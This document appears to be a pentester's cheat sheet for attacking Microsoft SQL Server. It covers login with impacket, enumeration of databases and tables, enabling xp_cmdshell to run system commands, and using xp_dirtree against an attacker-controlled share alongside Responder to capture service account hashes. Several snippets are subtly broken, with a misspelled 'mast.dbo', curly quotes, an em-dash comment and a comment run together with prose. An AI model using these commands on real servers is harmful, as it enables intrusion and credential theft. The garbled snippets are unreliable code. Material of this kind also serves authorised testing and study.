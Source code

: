 
## Good places
[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Warning
Be careful, you can **block accounts** if you fail login several times using an existing username.

## Impacket smb related scripts
[[Impacket-Cheatsheet]]; if you have credentials:
```bash
# connect to a Microsoft SQL server
impacket-mssqlclient -port $PORT $domain/$sql_svc 
```

```sql
SELECT @@version					 	-- version check
SELECT DB_NAME()						-- current database
SELECT name FROM master..sysdatabases;	-- list databases

SELECT name, database_id, create_date FROM sys.databases;

USE <databasenamegoeshere>
SELECT * FROM information_schema.tables;
SELECT * FROM users;

-- Has two comment types
SELECT 1 — comment  
SELECT /*comment*/ 

SELECT is_srvrolemember('sysadmin'); 	-- role check

```

Show all the tables in a database
```sql
SELECT table_name, table_schema, table_type
    FROM information_schema.tables
    WHERE table_catalog = 'TestDB'
    ORDER BY table_name ASC;
```

Show all tables across all databases
```sql
SELECT *
    FROM information_schema.tables
    ORDER BY table_name ASC;
```


## Command Execution
Check if cmdshell is already active
```sql   
EXEC xp_cmdshell ‘net user’; -- privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure ‘show advanced options’, 1; -- priv  
RECONFIGURE; -- priv  
EXEC sp_configure ‘xp_cmdshell’, 1; -- priv  
RECONFIGURE; -- priv
-- OR
EXEC mast.dbo.xp_cmdshell 'cmd';
```

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test'; EXEC xp_dirtree @q;--+ 
```
Or
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

## Hash Passback
Use [[Responder-Cheatsheet]] to catch the service hash of user 
```bash
sudo responder -I $interface
xp_dirtree "\\attacker_ip\Share"
```

## References
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
[therootcompany](https://therootcompany.com/blog/mssql-cheat-sheet/)